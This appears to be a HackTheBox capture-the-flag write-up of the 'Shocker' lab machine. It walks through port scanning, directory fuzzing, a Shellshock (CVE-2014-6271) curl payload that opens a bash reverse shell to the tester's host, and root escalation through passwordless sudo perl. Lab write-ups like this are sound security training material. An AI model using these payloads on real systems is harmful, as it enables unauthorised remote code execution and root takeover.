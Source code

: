 # HackTheBox Shocker

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)

![](images/1.png)

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.56

[+] Openning ports: 80,2222

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.56 -p80,2222
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-05 23:48 +07
Nmap scan report for 10.10.10.56
Host is up (0.23s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.51 seconds
```

### Apache httpd 2.4.18

It is so funny at the home page, but don't have value info here.

![](images/2.png)

List of the hidden in the server with wfuzz.

```
┌──(Hades㉿10.10.14.5)-[2.4:26.0]~
└─$ wfuzz -z file,/usr/share/dirb/wordlists/common.txt --hc 404 'http://10.10.10.56/FUZZ'
<snip>
000000820:   403        11 L     32 W       294 Ch      "cgi-bin/"
000002020:   200        9 L      13 W       137 Ch      "index.html"
000003588:   403        11 L     32 W       299 Ch      "server-status"
```

There are uri `/cgi-bin/` may have more hidden content and will be exploit with shellshock vulnerability.

```
┌──(Hades㉿10.10.14.5)-[4.9:27.2]~
└─$ gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -t 30 -x .php,.sh,.html -b 403,404 -q
/user.sh              (Status: 200) [Size: 118]
```

I found uri `user.sh` in directory `cgi-bin`.

```
┌──(Hades㉿10.10.14.5)-[4.9:26.2]~
└─$ curl http://10.10.10.56/cgi-bin/user.sh
Content-Type: text/plain

Just an uptime test script

 13:55:03 up  1:11,  0 users,  load average: 0.00, 0.00, 0.00

```

## Foothold

### Shellshock

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/shocker)

Shellshock CVE-2014-6271 [Poc here](https://github.com/mubix/shellshocker-pocs).

`env X='() { :; }; echo "CVE-2014-6271 vulnerable"' bash -c id`

Execute shelshock payload in the server using curl.

```
curl -H "user-agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'" http://10.10.10.56/cgi-bin/user.sh
```

At the listener, I have reverse shell

```
┌──(Hades㉿10.10.14.5)-[3.4:26.2]~
└─$ sudo nc -nvlp 443
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.56] 41484
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ whoami
whoami
shelly
```

## Privilege Escalation

### Sudo group

Checking with `sudo -l`, I know that command `/usr/bin/perl` can run as root without require password.

```
shelly@Shocker:/tmp$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Create file reverse shell `rev.pl` and execute it using `sudo /usr/bin/perl`.

```
shelly@Shocker:/tmp$ cat rev.pl | sudo /usr/bin/perl
```

At listener I have root shell.

```
┌──(Hades㉿10.10.14.5)-[3.5:25.3]~/scripting/priescal
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.56] 41492
# id
uid=0(root) gid=0(root) groups=0(root)
```